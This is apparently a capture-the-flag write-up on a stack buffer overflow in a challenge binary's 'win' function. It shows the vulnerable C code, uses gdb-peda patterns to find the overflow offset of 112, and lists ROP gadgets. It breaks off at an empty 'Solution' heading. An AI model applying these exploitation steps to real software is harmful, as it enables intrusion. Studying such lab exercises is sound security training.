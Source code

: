 It's a classic, we can find a buffer overflow in the `win` function :

```c
void win() {
    // BUFSIZE os 100
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
    // 360 characters into variable sized with 100 -> OVERFLOW opportunity
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}
```

We can search the overflow offset with `gdb` creating a pattern :

```console
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwA'
```

And search this pattern:

```console
gdb-peda$ pattern search
Registers contain pattern buffer:
RBP+0 found at offset: 112
```

So the sweet spot is at `112`

# ROPGADGET

Because of the security, we have to use [ROP Return Oriented Programming](https://fr.wikipedia.org/wiki/Return-oriented_programming)

Using ROPgadget, we can list all the gadgets :

```console
> ROPgadget --binary vuln
....
0x000000000041af9a : xor eax, esi ; add al, 0x24 ; add ecx, ebp ; retf
0x000000000041f7bf : xor ecx, dword ptr [rbx + 0x8c64215] ; add bh, dh ; ret 0
0x000000000041ecc6 : xor ecx, dword ptr [rbx + 0x8d13b15] ; add bh, dh ; ret 0
0x000000000047b4ad : xor ecx, dword ptr [rcx - 0x7d] ; ret
0x0000000000406ba1 : xor ecx, ecx ; pop rbx ; pop rbp ; mov rax, r9 ; pop r12 ; ret
0x0000000000403044 : xor esp, esp ; pop rbx ; pop rbp ; mov rax, r12 ; pop r12 ; ret
0x000000000041bca1 : xor qword ptr [rax], r9 ; add dword ptr [rax + 0x39], ecx ; ret
0x00000000004085a8 : xor r8d, r8d ; mov rax, r8 ; pop rbx ; pop rbp ; ret
0x000000000040859d : xor r8d, r8d ; mov rax, r8 ; ret
0x000000000043c565 : xor rax, rax ; ret
....
```

# Solution

